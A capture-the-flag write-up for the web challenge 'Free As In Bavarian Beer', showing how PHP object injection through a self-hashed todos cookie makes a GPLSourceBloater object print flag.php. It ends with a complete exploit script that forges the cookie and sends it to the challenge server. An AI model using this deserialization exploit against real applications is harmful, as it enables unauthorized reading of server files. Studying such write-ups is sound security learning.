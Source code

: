 # Free As In Bavarian Beer

## Details

* Category: web
* Points: 50

## Description

> You have lots of stuff to do?
>
> Better start using this cool tool.
>
> http://104.154.70.126:10888

## Write-up

We are given a link to a page that allows you to create todos. The page also contains a bit of code that allows you to view the source code of the page.

The todos are store in a cookie. If we use the page as is intended, then the data stored in the cookie is an array of strings serialized and deserialized with the functions [serialize](https://secure.php.net/serialize) and [unserialize](https://secure.php.net/unserialize). However, since cookies are client-side we can control the content of the cookie.

The page contains a class that is used to display the source code of the page:

```php
<?php
Class GPLSourceBloater{
    public function __toString()
    {
        return highlight_file('license.txt', true).highlight_file($this->source, true);
    }
}
```

The __toString() method is a [magic method](https://secure.php.net/manual/en/language.oop5.magic.php#object.tostring) which is called if you try to echo an instance of the class. We see that the file that it prints is determined by the property named source.

If the todos cookie is set, then the script will deserialize it and later on it will iterate over the array and echo each element.

```php
<?php
$todos = [];

if(isset($_COOKIE['todos'])){
    $c = $_COOKIE['todos'];
    $h = substr($c, 0, 32);
    $m = substr($c, 32);

    if(md5($m) === $h){
        $todos = unserialize($m);
    }
}
?>

<?php foreach($todos as $todo):?>
    <li><?=$todo?></li>
<?php endforeach;?>
```

Instead of sending an array of strings in the cookie, we can send an array with an instance of GPLSourceBloater where the source property has the value "flag.php". This will cause the contents of the file flag.php to be printed.

We also have to take into consideration that the script checks if the first 32 bytes of the cookie contains an MD5 hash of the serialized data.

Armed with this knowledge we can write a PHP script that crafts a cookie that will cause the contents of flag.php to be displayed.

```php
<?php
Class GPLSourceBloater{
    public function __toString()
    {
        return highlight_file('license.txt', true).highlight_file($this->source, true);
    }
}

$objects = [ new GPLSourceBloater() ];
$objects[0]->source = 'flag.php';

$m = serialize($objects);
$h = md5($m);

$cookie = urlencode($h . $m);

$ch = curl_init();

curl_setopt($ch, CURLOPT_URL, 'http://104.154.70.126:10888/');
curl_setopt($ch, CURLOPT_HTTPHEADER, array('Cookie: todos=' . $cookie));
curl_exec($ch);

curl_close($ch);
```